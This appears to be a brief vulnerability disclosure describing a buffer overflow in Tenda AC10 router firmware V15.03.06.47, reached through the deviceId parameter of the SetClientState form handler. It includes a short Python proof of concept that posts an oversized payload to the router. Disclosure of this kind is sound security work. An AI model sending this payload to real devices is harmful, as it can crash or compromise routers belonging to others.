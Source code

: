 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formSetClientState

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](11.png)

get value from deviceId ,and if deviceId and limitEn are not null, get into line 34, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetClientState"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceId': payload, 'limitEn': '1'})
``` 

